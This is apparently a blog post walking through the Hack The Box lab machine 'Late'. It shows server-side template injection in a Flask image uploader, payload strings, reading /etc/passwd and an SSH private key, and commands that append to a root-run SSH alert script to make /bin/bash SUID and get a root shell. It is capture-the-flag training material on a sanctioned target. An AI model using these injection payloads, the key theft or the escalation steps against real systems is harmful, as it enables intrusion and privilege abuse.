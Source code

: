 ```yaml
---
layout: post
title: "HTB: Late"
author: Andrew Cherney
date: 2023-01-12 20:48:24
tags: htb easy-box
icon: "/assets/icons/late.png"
post_description: "Late was a box with practically two parts. The first was to identify the image upload function on the http site was vulnerable to SSTI and crafting an image to serve as the payload. The second was to find an SSH login alert bash script that was run as root and writable by everyone."
---
```


<h1>Summary</h1>

Late is an easy difficulty box with practically two parts. The first was to identify the image upload function on the http site was vulnerable to SSTI and crafting an image to serve as the payload. The second was to find an SSH login alert bash script that was run as root and writable by everyone. 

<h1>Enumeration</h1>

This box I decided to try <code>rustscan</code> to scan for open ports and services. It's effectively a wrapper around <code>nmap</code> which allows for additional functionality and faster scanning, but in my case I use it for the latter of those reasons. 

<h2>rustscan</h2>

```bash
rustscan 10.10.11.156 | tee results.scan
```

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDSqIcUZeMzG+QAl/4uYzsU98davIPkVzDmzTPOmMONUsYleBjGVwAyLHsZHhgsJqM9lmxXkb8hT4ZTTa1azg4JsLwX1xKa8m+RnXwJ1DibEMNAO0vzaEBMsOOhFRwm5IcoDR0gOONsYYfz18pafMpaocitjw8mURa+YeY21EpF6cKSOCjkVWa6yB+GT8mOcTZOZStRXYosrOqz5w7hG+20RY8OYwBXJ2Ags6HJz3sqsyT80FMoHeGAUmu+LUJnyrW5foozKgxXhyOPszMvqosbrcrsG3ic3yhjSYKWCJO/Oxc76WUdUAlcGxbtD9U5jL+LY2ZCOPva1+/kznK8FhQN
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBMen7Mjv8J63UQbISZ3Yju+a8dgXFwVLgKeTxgRc7W+k33OZaOqWBctKs8hIbaOehzMRsU7ugP6zIvYb25Kylw=
|   256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIGrWbMoMH87K09rDrkUvPUJ/ZpNAwHiUB66a/FKHWrj
80/tcp open  http    syn-ack ttl 62 nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 1575FDF0E164C3DB0739CF05D9315BDF
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
```

<h2>Port 80 - Nginx</h2>

![late.htb](/img/late/late_htb_site.png)

![late.htb FAQ](/img/late/late_htb_FAQ.png)

Taking a look around we can quickly find in the FAQ a link to the online photo editor. That specific link directs to <code>images.late.htb</code>. Now I can add the domain and subdomain to my <code>/etc/hosts</code> file:

```
10.10.11.156 late.htb images.late.htb
```

![images.late.htb](/img/late/late_htb_images.png)

After adding that subdomain to my hosts file, we are presented with a page to turn an uploaded image into text. There is one major indicator of our next step and it lies within the header at the top: Flask. 

<h1>Foothold</h1>

Before we get ahead of ourselves we could test this pages functionality. I throw a cat picture at the text converter as a sanity check:

![cat upload test](/img/late/late_htb_test_upload.png)

That is exactly as expected, now let's create a simple image with text to determine if this is vulnerable to SSTI and if it properly handles regular text. 

![SSTI test payload](/img/late/late_htb_test_payload.png)

![SSTI test response](/img/late/late_htb_test_payload_response.png)

Great, my suspicions were confirmed and now we can move onto the next part. 

<h2>Flask and SSTI</h2>

Now in short, Flask is a python based web framework which is notoriously vulnerable to one type of attack: Server Side Template Injection. The framework integrates the use of templates, which allow for importing data from various pages and parts of a site. For example this site itself uses layout pages that contain \{\{ content \}\} to import the referencing page's information. Another functionality of those templates is the ability to run code and commands with the language natively used within the framework. 

For the test payload I used \{\{7*7\}\} which if the application is SSTI vulnerable will calculate the result, which is the 49 we received in the response. 

There is one slight problem however when it comes to SSTI on Flask, and that is navigating python objects and inheritance trees. In order to run commands or code through templates we need to crawl through the Python environment to find classes useful to us. In some cases it can be as simple as throwing a pre-generated cheatsheet payload template at Flask, and in others is can look something like \{\{‘’.\_\_class\_\_.\_\_mro\_\_[1].\_\_subclasses\_\_()[284:]\}\} and the only way to find out is by enumerating the classes used in the application. 

Get it? Good, because all of that paragraph above is worthless since the [cheatsheet templates below](https://github.com/Jieyab89/Jinja2-python-or-flask-SSTI-vulnerability-payload-) I tested against it worked ... 

![SSTI /etc/passwd read](/img/late/carbon_(61).png)
![SSTI ssh key read](/img/late/ssh_payload.png)

When you give the upload an SSTI payload it returns the results of the payload. In the second payload's case that would be the ssh key for the account running the site. A soft blessing ends up working in my favor, as the test payload to read <code>/etc/passwd</code> shows me the potential names for accounts to ssh into, the winner of those being svc_acc.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Late]
└──╼ $ssh svc_acc@10.10.11.156 -i id_rsa
svc_acc@late:~$ id
uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)
```

<h1>Root</h1>

Since this is an easy box it's safe to assume linpeas will likely churn out my next step, and would you look at that a bash script in <code>/usr/local/sbin</code>

![linpeas scan](/img/late/late_htb_linpeas.png)

```
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

The script is sending an email to the presumptive root email for every SSH login. Now I have two options, I can scour the machine to determine who is running this script, or I can append <code>whoami</code> to the script and log back in.

```bash
svc_acc@late:~$ echo 'whoami | tee /tmp/user' >> /usr/local/sbin/ssh-alert.sh
svc_acc@late:~$ exit
logout
Connection to 10.10.11.156 closed.
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Late]
└──╼ $ssh svc_acc@10.10.11.156 -i id_rsa 
svc_acc@late:~$ cat /tmp/user
root
```

Well if root is running this script our priv esc is as simple as modifying bin bash to be an SUID, making it run as the owner root. 

```bash
svc_acc@late:~$ echo 'chmod u+s /bin/bash' >> /usr/local/sbin/ssh-alert.sh 
svc_acc@late:~$ exit
logout
Connection to 10.10.11.156 closed.
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Late]
└──╼ $ssh svc_acc@10.10.11.156 -i id_rsa 
-bash-4.4$ bash -p
bash-4.4# whoami
root
```

And with that I can read the root.txt flag in the root directory and pwn the box.
